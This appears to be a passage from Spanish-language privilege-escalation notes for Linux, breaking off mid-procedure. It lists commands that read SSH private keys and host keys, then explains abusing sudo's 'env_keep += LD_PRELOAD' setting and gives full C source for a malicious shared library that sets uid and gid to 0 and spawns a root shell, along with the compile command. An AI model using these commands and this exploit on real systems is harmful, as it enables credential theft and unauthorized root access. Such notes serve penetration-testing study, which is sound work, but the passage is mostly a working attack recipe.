 A lo bruto:

- cat ~/.ssh/authorized_keys
- cat ~/.ssh/identity.pub
- cat ~/.ssh/identity
- cat ~/.ssh/id_rsa.pub
- cat ~/.ssh/id_rsa
- cat ~/.ssh/id_dsa.pub
- cat ~/.ssh/id_dsa
- cat /etc/ssh/ssh_config
- cat /etc/ssh/sshd_config
- cat /etc/ssh/ssh_host_dsa_key.pub
- cat /etc/ssh/ssh_host_dsa_key
- cat /etc/ssh/ssh_host_rsa_key.pub
- cat /etc/ssh/ssh_host_rsa_key
- cat /etc/ssh/ssh_host_key.pub
- cat /etc/ssh/ssh_host_key

#### Bala de plata V: Sudo

##### Explotación de LD_Preload

Sin en el fichero de sudoers hay "env_keep += LD_PRELOAD" , significa que LD_PRELOAD que no deja de ser una ubicación de librerias, esta activa. Por lo que cuando un usuario ejecute un programa con sudo, sudo sabe donde ha de buscar las librerias compartidas para funcionar. 

La idea es crear un objeto .so, referenciado por LD_PRELOAD y que sera cargado antes que cualquier otro.

¿Pero...porque es necesaria la opcion env_keep?

La limitacion es que LD_PRELOAD no funcionara si el RUID y el EUID no son el mismo. Por ese motivo, es necesario que LD_PRELOAD = env_keep option

Si no existe esta configuración, no se puede explotar esta vulnerabilidad

###### Creación de la shell

1. Creacion de shell.c en /tmp:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}

2. Lo pasamos a libreria.so:

 cc -fPIC -shared -o shell.so shell.c -D_GNU_SOURCE -nostartfiles

3. Entonces:
